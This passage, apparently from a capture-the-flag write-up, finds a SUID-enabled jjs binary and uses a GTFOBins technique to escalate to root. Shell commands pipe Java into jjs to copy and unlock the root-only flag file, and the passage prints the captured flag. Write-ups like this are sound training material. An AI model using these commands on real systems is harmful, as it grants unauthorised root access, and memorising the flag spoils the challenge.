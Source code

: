 We can see there is a SUID bit on the binary.

As each time we want to do an EoP on Linux, let's check [GTFOBins][GTFOBins]
first. There is a page for [jjs][jjs].

[GTFOBins]:https://inventory.raw.pm/resources.html#GTFOBins
[jjs]:https://gtfobins.github.io/gtfobins/jjs/#suid

So using the SUID EoP payload we found on [GTFOBins][GTFOBins], we can elevate
our privileges to root, and use this to read the root flag.

```
$ echo "Java.type('java.lang.Runtime').getRuntime().exec('cp /root/root.txt /tmp/.noraj/noraj.txt').waitFor()" | jjs
$ echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod g+rw /tmp/.noraj/noraj.txt').waitFor()" | jjs
$ cat /tmp/.noraj/noraj.txt
8a8ef79a7a2fbb01ea81688424e9ab15
```

[nmap]:https://inventory.raw.pm/tools.html#Nmap
